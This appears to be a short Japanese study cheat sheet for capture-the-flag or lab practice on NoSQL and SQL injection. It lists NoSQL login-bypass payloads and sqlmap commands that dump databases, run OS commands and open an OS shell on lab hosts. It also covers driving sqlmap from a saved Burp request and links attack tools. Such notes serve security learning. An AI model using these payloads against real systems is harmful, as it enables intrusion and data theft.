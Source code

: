 ### nosql用
確認用文字列
```
'"\/$[].>

ログインバイパス
admin'||'1==


' || 1==1//
' || 1==1%00
term || '1'=='1



または否定をつかう[$ne]は!なので[$ne]=とすると!=になる
[$ne]=nobody
```

### 勉強用サイト

SQL injection UNION attacks
https://portswigger.net/web-security/sql-injection/union-attacks

sqlinjection.net
https://www.sqlinjection.net/

### sqlmap
sqlmap -u "http://192.168.182.121/vaccine.php?prefecture=Tokyo&action=search" --dbs
sqlmap -u "http://192.168.182.121/vaccine.php?prefecture=Tokyo&action=search" -D mydb --tables 
sqlmap -u "http://192.168.182.121/vaccine.php?prefecture=Tokyo&action=search" -T COVID21  --dump
sqlmap -u http://m3.mod8.axof.intra.hckr.jp/search.php?kind=cat --proxy=http://127.0.0.1:8080 --os-cmd="find / -name flag |grep -v denied"
シェルだとfindとか使えないので使いたかったらos-cmdの方を使う
sqlmap -u http://m3.mod8.axof.intra.hckr.jp/search.php?kind=cat --proxy=http://127.0.0.1:8080 --os-shell

Burpで取得したリクエストをもとにしたい場合は-rオプションを使うとできる
手順
burpを通している状態で一度リクエストを発生させる
historyから保存したいリクエストを選んでハンバーガーメニューのSave Itemを選ぶ
sqlmapの-rオプションを使ってコマンドを投げる
sqlmap -r post -dbs -proxy="http://127.0.0.1:8080"

### NoSQL Injector
NoSQL攻撃用のツール。
https://github.com/Charlie-belmer/nosqli

### NoSQL Exploitation Framework
NoSQL 攻撃用のフレームワーク
インストールがうまくいかない動くならよさそう
https://github.com/torque59/Nosql-Exploitation-Framework
